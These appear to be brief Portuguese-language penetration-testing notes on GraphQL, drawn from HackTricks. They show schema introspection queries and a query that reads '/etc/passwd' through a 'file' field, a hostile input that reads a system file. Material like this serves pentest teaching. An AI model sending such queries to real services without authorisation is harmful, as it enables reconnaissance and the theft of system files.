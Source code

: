 ###  Listar todos os tipos do schema
```graphql
{
	__schema {
		types {
			name
		    kind
		    description
	    }
	}
}
```
### Obter detalhes (campos, argumentos, tipo) de um tipo específico:
```graphql
{
  __type(name: "User") {
    name
    fields {
      name
      type { name kind }
    }
  }
}
```
### Fazendo uma query
```graphql
{
	file(path: "/etc/passwd"){
		content
	}
}
```
### Referência
https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/graphql.html#introspection
***
